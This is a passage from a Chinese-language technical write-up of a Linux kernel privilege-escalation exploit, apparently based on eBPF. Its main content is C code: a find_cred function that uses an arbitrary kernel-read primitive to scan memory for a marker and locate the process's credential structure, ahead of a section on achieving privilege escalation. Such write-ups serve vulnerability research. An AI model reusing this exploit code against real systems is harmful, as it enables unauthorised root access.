 ```C
        ctx->processes[i] = child;
    }

    return 0;
}
```

之后，各进程依次尝试通过任意读原语，在 array 指针之后 PAGE_SIZE * PAGE_SIZE 大小的内核空间搜索 SCSLSCSL 字符串，来定位进程的 cred 。

```C
int find_cred(context_t *ctx)
{
    for (int i = 0; i < PAGE_SIZE*PAGE_SIZE ; i++)
    {
        u64 val = 0;
        kaddr_t addr = ctx->array_map + PAGE_SIZE + i*0x8;
        if (arbitrary_read(ctx, addr, &val, BPF_DW) != 0) {
            WARNF("Could not read kernel address %p", addr);
            return -1;
        }

        // DEBUGF("addr %p = 0x%016x", addr, val);

        if (memcmp(&val, __ID__, sizeof(val)) == 0) {
            kaddr_t cred_from_task = addr - 0x10;
            
            if (arbitrary_read(ctx, cred_from_task + 8, &val, BPF_DW) != 0) {
                WARNF("Could not read kernel address %p + 8", cred_from_task);
                return -1;
            }

            if (val == 0 && arbitrary_read(ctx, cred_from_task, &val, BPF_DW) != 0) {
                WARNF("Could not read kernel address %p + 0", cred_from_task);
                return -1;
            }

            if (val != 0) {
                ctx->cred = (kaddr_t)val;
                DEBUGF("task struct ~ %p", cred_from_task);
                DEBUGF("cred @ %p", ctx->cred);
                return 0;
            }
            

        }
    }
    
    return -1;
}
```

### 4.5 实现提权
